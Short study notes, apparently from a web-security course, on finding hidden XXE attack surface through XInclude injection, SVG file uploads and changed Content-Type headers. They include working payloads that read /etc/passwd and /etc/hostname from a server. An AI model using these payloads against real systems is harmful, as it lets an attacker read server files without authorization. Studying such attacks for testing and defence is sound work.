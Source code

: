 ## Find hidden attack surface
* There are some places that don't contain any XML that you can attack

XInclude Attacks
* Some apps recieve client-submitted data, embed it server side in XML doc, then parse it
   	* e.g. back-end SOAP request, processed by SOAP service
      		* Soap has built in error handling, response will contain error information
* Not normal attack, don't control the XML file.
* XInclude allows you to include XML from subdocuments
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
* Look for places taking input and put it there.

Via File Upload
* When uploaded photo's are processed server-side
* Some use XML : like DOCX and SVG
* try and upload an SVG, because it uses XML, and attacker can submit malicious SVG image
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
</svg>

Via Modified Content Type
* POST requests use default content types like “application/x-www-form-urlencoded”
* Some websites expect requests in this format, but will also tolerate other content types (like XML)
* Change Content-Type to text/xml and add some xml to the contents
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
* Easy to reach hidden XXE attack surfaces by reformating requests to use XML

